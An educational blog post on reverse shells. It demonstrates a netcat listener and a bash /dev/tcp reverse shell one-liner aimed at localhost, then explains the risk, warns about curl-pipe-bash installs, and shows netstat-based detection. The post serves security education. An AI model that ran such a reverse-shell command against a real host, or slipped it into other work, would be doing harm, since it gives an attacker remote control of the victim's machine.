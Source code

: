 ```yaml
---
title: "What does a reverse shell actually look like?"
description: "Using basic Linux Bash commands to demonstrate a simple reverse shell."
tags:
  - networking
  - linux
  - bash
  - nc
  - security


---
```


A reverse shell is a type of shell where the target machine (under attack) communicates back to an attacker's machine, and importantly, gives the attacker control over the target machine. 

The attacker's machine will be listening on a port. A malicious script runs on the target machine, which connects back to the attacker's machine. The attacker's machine receives the connection. The attacker is then able to execute commands on the target machine.  

I'll create a simple example to demonstrate one to follow along with, it's just a few basic Linux Bash commands on the same machine. The simplicity of setting up a reverse shell is the reason why you should always be careful about what you run on your machine.

## Set up the listener

In one terminal window, setup a listener. Pretend that this is the attacker's machine.     

```bash
nc -lnvp 1337
```

Alternatively, you can also run this in docker, it's your choice. 

```bash
docker run -it -p 1337:1337 --rm busybox:stable nc -lnvp 1337
```

Either way, the output should simply say "Listening on 0.0.0.0 1337". 


## Connect to the listener

Now in another terminal window, run this command to 'connect' to the listener. Pretend that this is the machine being compromised.  

```bash
/bin/bash --rcfile <(echo "PS1='omghacker: '") -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

The `/bin/bash` starts a new shell.  
The `-i` makes it interactive.   
The `--rcfile` bit is just something I've added to make the prompt look different, but isn't necessary.
The `>& /dev/tcp/...` redirects the input and output to the listener by making use of the [`/dev/tcp` feature in Linux Bash](2024-07-28-networking-cheat-sheet.md#reach-a-port-on-a-server).  
The `0>&1` redirects both standard input and output to the listener.    

## What happens?

Nothing will happen in the second terminal window. But, go back to the first terminal window where the listener is running, and you should see a new prompt. It might look something like this.  

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 39738
omghacker:
```

The `omghacker:` is the prompt from the "compromised machine". 

You can now try running commands against it. Try `ls`, `pwd`, `whoami`, etc.

![Reverse shell](/assets/images/simple-reverse-shell-in-linux-bash/001.png)



When you're done, just `exit` to close the connection.


## Why is this dangerous?

This demonstrates just how easy it is to set up a reverse shell; the danger is its simplicity. It's not just limited to Bash, it can be done in [several languages and environments](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/). 

The `whoami` command would have shown that it's the user running on the compromised machine, which means their permissions are the attacker's permissions. 

It's also one of the (many) reasons that `curl | bash` type installations, often seen when installing software, are frowned upon. Sadly, they are still widely used out of laziness, convenience, or simply ignorance, and it is pretty sad to see well established projects promoting this security risk. 

The best way to protect yourself from a reverse shell attack is to be careful about what you run on your machine. If you're running a script from the internet, make sure you understand what it does first, don't just blindly run it. 

For developers, it's important to be avoid trying to make OS calls from code, especially when passing user input directly to the command. Those situations should be avoided as much as possible. Bash is rich and powerful in the creativity it proffers, and so sanitisation is not really going to help that much.

For application deployments, this is one of the (many) reasons why containers are useful; they provide a level of isolation, and therefore a reduced blast radius if something goes wrong.  

Just for reference, the following command can show you all the established connections on your machine, with the process ID and command. 

```bash
netstat -pan | grep -i ESTABLISHED
```

Here is what the reverse shell example would look like. An established connection from bash should prompt you to investigate further.

```
tcp        0      0 127.0.0.1:49364         127.0.0.1:1337          ESTABLISHED 24449/bash 
```

Note: it's not a perfect way of detecting reverse shells though, there are ways of hiding the connection, and the connection isn't always active. Other tools like [Fenrir](https://github.com/Neo23x0/Fenrir) might help as well. 
